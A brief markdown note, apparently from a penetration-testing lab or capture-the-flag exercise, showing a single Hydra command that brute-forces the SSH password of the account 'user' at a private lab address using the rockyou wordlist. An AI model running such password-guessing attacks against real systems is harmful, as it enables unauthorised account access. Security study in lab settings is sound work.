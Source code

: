# Hydra

SSH PW crack user "user"

```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```
